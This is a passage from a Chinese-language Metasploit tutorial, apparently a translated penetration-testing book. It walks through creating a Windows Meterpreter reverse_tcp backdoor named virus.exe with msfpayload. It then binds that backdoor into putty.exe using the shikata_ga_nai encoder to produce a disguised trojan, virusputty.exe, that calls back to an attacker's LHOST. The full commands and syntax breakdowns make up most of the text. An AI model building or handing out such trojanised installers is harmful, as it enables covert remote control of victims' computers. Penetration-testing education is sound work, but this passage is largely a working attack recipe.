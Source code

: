 例如，在这里，我们选择`windows/x64/meterpreter/reverse_tcp`有效载荷来创建我们的后门。

现在输入`./msfpayload windows/x64/meterpreter/reverse_tcp LHOST=192.168.0.105 X> root/Desktop/virus.exe`。

要使用的语法如下：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 X> (Giving path directory where to create virus.exe backdoor)- root/Desktop/virus.exe

```

![创建 EXE 后门](img/3589_10_07.jpg)

输入命令后，我们看到我们的桌面上有一个`virus.exe`后门。就是这样；我们完成了。使用`msfpayload`创建后门是如此简单。如果我们不想创建自己的 EXE 文件，只想与另一个 EXE 文件绑定（可能是软件安装文件），我们可以使用`msfpayload`和`msfvenom`的混合。

现在我们将把我们的后门 EXE 文件与`putty.exe`文件绑定。非常小心地输入以下命令：

```
./msfpayload windows/meterpreter/reverse_tcp LHOST=192.168.0.105 R | msfencode -e x86/shikata_ga_nai -c 6 -t exe -x/root/Desktop/putty.exe -o /root/Desktop/virusputty.exe

```

要使用的语法如下：

```
PAYLOAD NAME - windows/x64/meterpreter/reverse_tcp LHOST(your local IP address) - 192.168.0.105 ENCODER NAME - x86/shikata_ga_nai c(The number of times to encode the data) - 6 t(The format to display the encoded buffer) - exe x (Specify an alternate win32 executable template)- root/Desktop/virus.exe o(The output file) - root/Desktop/virusputty.exe

```

我们可以在以下截图中看到我们的病毒文件`virus.exe`已经与`putty.exe`绑定，给我们`virusputty.exe`，它可以在我们的桌面上使用。
